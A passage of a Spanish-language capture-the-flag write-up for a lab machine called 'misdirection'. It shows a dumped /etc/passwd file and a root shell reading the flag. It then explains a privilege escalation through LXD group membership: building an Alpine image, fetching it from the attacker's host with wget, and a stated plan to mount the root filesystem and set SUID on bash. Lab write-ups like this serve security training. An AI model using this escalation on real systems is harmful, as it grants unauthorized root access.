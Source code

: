 ```bash
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
brexit:x:1000:1000:brexit:/home/brexit:/bin/bash
mysql:x:111:113:MySQL Server,,,

bash-4.4$ su - root
Password:
root@misdirection:~# pwd
/root
root@misdirection:~# ls -l
total 4
-r-------- 1 root root 33 Jun  1  2019 root.txt
root@misdirection:~# cat root.txt
0d2c6222bfdd3701e0fa12a9a9dc9c8c
```

### Contenedor LXD

El usuario brexit tiene permiso al grupo `LXD`, con lo cual podemos elevar nuestro privilegio, montando la unidad `/` en el contenedor y luego asignando el bit SUID a la bash.

Usamos una imagen [alpine](https://github.com/saghul/lxd-alpine-builder.git) de lxd, la cual compartimos desde nuestra máquina.

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git 
cd lxd-alpine-builder 
./build-alpine
```

```bash
brexit@misdirection:/tmp$ id
uid=1000(brexit) gid=1000(brexit) groups=1000(brexit),24(cdrom),30(dip),46(plugdev),108(lxd)

brexit@misdirection:/tmp$ wget 10.11.12.10/alpine-v3.13-x86_64-20210218_0139.tar.gz
--2025-03-03 23:54:02--  http://10.11.12.10/alpine-v3.13-x86_64-20210218_0139.tar.gz
Connecting to 10.11.12.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3259593 (3.1M) [application/gzip]
Saving to: 'alpine-v3.13-x86_64-20210218_0139.tar.gz'

alpine-v3.13-x86_64-20210218_0139.tar.gz                           0%[                                                                                               alpine-v3.13-x86_64-20210218_0139.tar.gz                         100%[==========================================================================================================================================================>]   3.11M  --.-KB/s    in 0.03s

2025-03-03 23:54:02 (110 MB/s) - 'alpine-v3.13-x86_64-20210218_0139.tar.gz' saved [3259593/3259593]

brexit@misdirection:/tmp$ ls -l
total 4008
-rw-r--r-- 1 brexit   brexit   3259593 Mar  3 23:53 alpine-v3.13-x86_64-20210218_0139.tar.gz
```
